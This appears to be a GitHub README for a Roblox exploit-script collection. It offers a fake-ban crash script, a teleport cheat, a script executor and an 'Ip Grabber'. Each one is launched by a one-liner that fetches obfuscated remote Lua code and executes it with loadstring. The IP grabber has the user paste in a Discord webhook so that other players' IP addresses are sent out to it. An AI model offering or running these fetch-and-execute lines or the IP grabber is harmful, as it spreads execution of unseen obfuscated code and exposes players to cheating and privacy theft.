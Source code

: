 # About
I'll be posting my scripts into this repository, if I put someone elses script into this repository that just means I revamped their script. I'll be putting some scripts and info into the [README.md](https://github.com/wtfplayer/redemption/blob/main/README.md)

The scripts will be put into sections. (sections in the README.md btw)

Contact me on discord (**folixx**) or twitter (**zxfolix**)
I honestly don't put effort on updating the readme, so don't expect me to add the info right away.

# Fake Ban [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)


![crash](https://github.com/wtfplayer/redemption/assets/136761546/0a4cb2a3-5364-4c19-b013-eb98bb20982b)


# Position Finder [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

![positionfinder](https://github.com/wtfplayer/redemption/assets/136761546/b9953f50-d251-4f1c-8256-12012f4efe6d)

# Voidplate [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)
**Press E to teleport to the baseplate and press F to teleport to the voidplate** (Only works in literal baseplate)

**Credits to voidplate owner** - https://github.com/Raisincains/Scripts (If you don't know, the script I'm showing you is the revamp.)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)

![voidplate](https://github.com/wtfplayer/redemption/assets/136761546/0c15e5d6-a1d8-4d31-9218-8310aee58bf9)

# Script Executor [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

![script (2)](https://github.com/wtfplayer/redemption/assets/136761546/f18a5942-9f39-4ab2-beec-a92bb7aefb12)

# Ip Grabber [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua) (Outdated)
**Make sure to put your discord webhook in between** ''

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)

![ipgrab](https://github.com/wtfplayer/redemption/assets/136761546/ba8c6f22-5a4e-4521-b86a-46561bb7de92)


**Owner's Roblox** - https://www.roblox.com/users/3784100047/profile
